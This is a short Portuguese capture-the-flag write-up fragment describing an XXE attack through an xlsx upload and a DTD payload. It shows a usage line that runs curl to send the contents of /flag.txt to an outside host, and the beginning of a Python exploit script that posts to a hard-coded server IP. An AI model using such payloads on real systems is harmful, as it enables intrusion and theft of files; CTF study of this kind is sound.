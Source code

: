 Juntei o upload do xlsx com um script que coloca a payload no nosso arquivo DTD para fazer o exploit.

Segue o exploit:

```
(in same path of your dtd file)$ python3 exploit.py 'curl yoursite.io/$(cat /flag.txt)' 
```

```python
import requests
import sys

def send_file():
	session = requests.session()

	burp0_url = "http://34.85.140.67:80/uploadFile"
	burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://34.85.140.67", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryX8EzGd8nAoSVFtBe", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://34.85.140.67/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
```